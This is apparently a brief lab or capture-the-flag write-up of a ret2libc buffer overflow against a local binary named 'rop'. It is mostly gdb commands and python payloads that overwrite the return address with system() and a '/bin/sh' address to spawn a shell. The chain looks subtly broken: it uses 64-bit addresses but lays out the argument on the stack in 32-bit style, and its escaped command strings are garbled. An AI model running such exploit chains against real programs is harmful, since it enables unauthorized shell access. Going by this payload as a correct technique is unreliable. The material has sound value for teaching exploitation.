 *Try and smash stack*

    cat <(python -c 'print "A"*140') - | ./rop

gives *** stack smashing detected ***: ./rop terminated

Use flag ""-fno-stack-protector" for compilation.

*Find <system> call*

    gdb rop
    (gdb) break main
    (gdb) run
    (gdb) print system

$1 = {<text variable, no debug info>} 0x7ffff7a52390 <__libc_system>
little endian representation of the adress is \x90\x23\xa5\xf7\xff\x7f

So to jump to system call we can do:
cat <(python -c 'print "\x00"*140+"\x90\x23\xa5\xf7\xff\x7f"') - | ./rop

*Find "/bin/sh" string in system library*

    (gdb) break main
    (gdb) run
    (gdb) print &system
    (gdb) find &system,+9999999,"/bin/sh"

Returned address is: 0x7ffff7b99d17

*Finale*
echo "a"\n with escapes: \x65\x63\x68\x6f\x20\x5c\x22\x61\x5c\x22\x5c\x5c\x6e\x20
exit\n with escapes: \x65\x78\x69\x74\x5c\x5c\x6e
cat <(python -c 'print "\x00"*140 + "\x90\x23\xa5\xf7\xff\x7f" + "\x01"*8 + "\x17\x9d\xb9\xf7\xff\x7f" + "\x65\x63\x68\x6f\x20\x5c\x22\x61\x5c\x22\x5c\x5c\x6e\x20" + "\x65\x78\x69\x74\x5c\x5c\x6e"') - | ./rop
